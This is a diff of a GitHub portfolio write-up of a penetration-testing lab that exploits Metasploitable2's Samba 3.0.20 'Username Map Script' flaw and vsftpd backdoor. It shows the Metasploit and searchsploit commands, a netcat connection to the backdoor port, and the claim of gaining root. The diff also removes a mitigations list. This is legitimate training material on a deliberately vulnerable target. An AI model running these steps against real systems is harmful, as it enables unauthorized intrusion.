

Before and after one commit to engraham/Eric_Graham-Portfolio, a Markdown page: Pentest-Labs/metasploitable2_vsftpd-samba.md, the part around one of its changes. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Pentest-Labs/metasploitable2_vsftpd-samba.md
+++ b/Pentest-Labs/metasploitable2_vsftpd-samba.md
@@ -122,41 +135,41 @@ nc -v <target-ip> 6200
-3. Find an auxiliary scanner to find the Samba SMB _version_ and set the RHOSTS to <target_ip>. Running the scan shows "Samba 3.0.20-Debian"
-
-![vsftpd Backdoor Shell](screenshots/screenshots/msf_smb_version.png)
-
-4. In a new CMD, usging 'searchsploit' search for "samba 3.0.20" (I chose "'Username' map script' Command Execution" exploit).
-
-![vsftpd Backdoor Shell](screenshots/searchsploit_samba_version.png)
-
-5. From the auxiliary(scanner/smb/smb_verion) enter "grep samba search username map". This shows "exploit/multi/samba/usermap_script" with an exploit rating of "excellent".
-
-![vsftpd Backdoor Shell](screenshots/msf_grep_samba.png)
-
-6. Select "exploit/multi/samba/usermap_script" and show options and set RHOSTS to <target_ip>. Then run the exploit.
-
-![vsftpd Backdoor Shell](screenshots/msf_usermap_script_root.png)
-
-7. **Result:** Obtained root privileges via a shell.
-
+**About:**
+Samba 3.0.20 has a remote code execution vulnerability (Username Map Script) which allows shell execution.
 
 ---
 
-## Post-Exploitation
+**Steps Taken:**
 
-* Enumerated user accounts
-* Checked system information
-* Demonstrated ability to upload and execute files
-* Captured proof of root access
+1️⃣ Started Metasploit:
+
+```bash
+msfconsole
+```
+
+2️⃣ Ran an SMB version scan to confirm the target version:
+
+```bash
+use auxiliary/scanner/smb/smb_version
+set RHOSTS <target-ip>
+run
+```
+
+![SMB Version Scan](screenshots/msf_smb_version.png)
+*Figure 4: Scanner confirms Samba 3.0.20.*
 
 ---
 
-## Mitigations & Recommendations
+3️⃣ Found an exploit using `searchsploit`:
 
-* Upgrade vsftpd to a non-vulnerable version
-* Patch Samba to the latest stable release
-* Disable unused services
-* Implement firewall rules to restrict access
+```bash
+searchsploit samba 3.0.20
+```
+
+Identified `Username Map Script` exploit.
+
+![Searchsploit Result](screenshots/searchsploit_samba_version.png)
+*Figure 5: `searchsploit` output.*
 
 ---
 
-## References
+4️⃣ Loaded the exploit module:
 
````
Also changed, not shown: other parts of Pentest-Labs/metasploitable2_vsftpd-samba.md (+114 -80 lines).
